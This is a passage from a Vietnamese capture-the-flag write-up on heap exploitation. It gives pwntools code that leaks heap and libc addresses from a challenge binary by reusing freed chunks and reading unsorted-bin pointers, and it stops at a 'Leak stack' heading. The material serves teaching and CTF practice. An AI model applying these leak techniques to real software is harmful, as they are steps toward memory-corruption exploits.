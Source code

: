 ![Alt text](image.png)
# Khai thác
## Leak heap (có thể không cần thiết)
- Để leak được heap đầu tiên ta sẽ malloc mà size là 0 để chương trình làm tròn là 0x20. Sau đó free chunk đó đi và malloc size 0 lại lần nữa
> Mục đích size 0 là để khi read thì chúng ta không phải nhập gì tránh ghi đè
```python
create(8, b'a') # 0
remove(0)
create(8, b'0') # 0
p.recvuntil(b'tent: \n')
heap = u64(p.recvline(keepends = False).ljust(8, b'\0')) <<12
print(hex(heap))
```

## Leak libc
- Leak libc bằng unsorted bin, khi chunk trong unsorted sẽ chứa 2 địa chỉ libc, ta sẽ ghi đè địa chỉ thứ nhất đế tận dụng %s địa chỉ thứ 2
```python
create(0x500, b'a\n') # 1
create(0x50, b'a') # 2
remove(1)
create(0x500, b'a'*8) #1, count = 2
p.recvuntil(b'a' *8)
libc.address = u64(p.recvline(keepends = False).ljust(8, b'\0')) - 0x219ce0
info("libc address: " + hex(libc.address))
```
## Leak stack
